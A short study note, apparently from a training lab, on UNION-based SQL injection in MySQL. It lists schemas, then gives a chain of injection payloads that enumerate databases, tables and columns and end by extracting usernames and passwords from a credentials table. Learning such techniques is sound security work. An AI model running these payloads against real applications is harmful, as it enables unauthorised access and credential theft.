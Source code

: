 #SQL_Injection 

---

- To list all the database names in our system we use the following syntax:
```bash
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

**Note**: The column name is **SCHEMA_NAME**, DB name is **INFORMATION_SCHEMA** and table name is **SCHEMATA**

- We can obtain the above using using an **SLQ Injection** with **UNION** as follows:
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```


- To obain all the tables from a given DB(i.e. `dev`) we use the following command:
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- To then select all the the columns from a given table(i.e., `credentials`) listed from the above command we use the following command:
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

- And then from the above command, we can filter based on certain columns
```sql
cn' UNION select 1,username,password,4 from dev.credentials-- -
```
